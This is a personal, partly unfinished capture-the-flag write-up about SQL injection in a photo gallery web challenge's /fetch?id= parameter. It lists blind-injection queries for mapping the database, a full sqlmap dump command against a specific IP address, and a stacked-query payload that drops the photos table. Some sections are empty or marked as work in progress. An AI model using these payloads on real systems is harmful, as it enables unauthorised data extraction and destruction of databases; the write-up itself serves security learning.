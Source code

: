 This ctf took me quit a while to figure out. I personally found flag 1 first then flag 0 and I am still working on flag 2. I believe that most people will get flag 1 before flag 0. So i will write up flag 1 first. It's pretty straight forward.


## Flag 1 – SQL Injection

Navigating the website you will notice that there is not a lot to do. We can't buy anything click on anything or comment. Checking out the source code of the website we see that the images are being loaded from the url `/fetch?id=X` (X is a placeholder for a number). Browsing to that url you will see a site with the raw image data. The interesting part however is the url itself. Looking at the url parameter and replacing the value with sth like 2-1 for example shows that the application is vulnerable to sql injection. Great!

### Blind injection
Blind sql injeciton can be used to gain information about the database layout. For example using the following query shows the length of the db_name :

```
.../fetch?id=4 OR LENGTH(database()) = 6
```
from there it is possible to guess the name using queries similar to the following:
```
.../fetch?id=4 or database() LIKE '______'
```
You can replace a single '_' with any sign in order to guess the sign at that position. Once you guessed the correct value you can replace the next underscore. The underscore characters serve as a wildcard for a single character. It is important to use 6 underscores since that is the length of the databse name.

After obtaining the database name the following query can be used to find out the number of tables in the database:
```
.../fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2
```

After that i went after the table names. There is a great turorial on this here :

The db layout looks like this :
DB Layout:
...db_name: "level5" 
...num_of_tables : 2
...tables_names : albums, photos

For the extraction of the data i used sqlmap. I dumped the entire database using the following commands:
```
```

You will find flag 1 in the entry for the invisible kitty.


## Flag 0 – SQL Injection



### Union based injection


## WIP



To dump it all :
sqlmap -u "http://35.237.57.141:5001/b09a24aa14/fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

Flag 2 – Stacked Queries
Drop a table: (breaks app)
http://35.196.135.216/5ddb86c66f/fetch?id=1;%20DROP%20Table%20photos



